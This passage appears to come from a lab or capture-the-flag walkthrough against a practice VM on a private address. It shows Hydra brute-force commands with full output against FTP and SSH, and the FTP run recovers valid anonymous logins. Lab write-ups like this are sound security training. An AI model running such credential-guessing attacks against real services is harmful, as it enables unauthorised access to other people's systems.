 ```shell
hydra -L users.txt -P passwords.txt $RHOST ftp
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-01 10:41:07
[DATA] max 16 tasks per 1 server, overall 16 tasks, 20 login tries (l:5/p:4), ~2 tries per task
[DATA] attacking ftp://192.168.56.60:21/
[21][ftp] host: 192.168.56.60   login: ftp   password: Security@hackNos
[21][ftp] host: 192.168.56.60   login: ftp   password: hackNos
[21][ftp] host: 192.168.56.60   login: ftp   password: admin
[21][ftp] host: 192.168.56.60   login: ftp   password: anonymous
[21][ftp] host: 192.168.56.60   login: anonymous   password: Security@hackNos
[21][ftp] host: 192.168.56.60   login: anonymous   password: hackNos
[21][ftp] host: 192.168.56.60   login: anonymous   password: admin
[21][ftp] host: 192.168.56.60   login: anonymous   password: anonymous
1 of 1 target successfully completed, 8 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-01 10:41:11

```

This basically means that ftp server is allowing anonymous login with ftp or anonymous as users.

```shell
hydra -L users.txt -P passwords.txt $RHOST ssh
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-01 10:41:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 20 login tries (l:5/p:4), ~2 tries per task
[DATA] attacking ssh://192.168.56.60:22/
1 of 1 target completed, 0 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-01 10:41:20

```
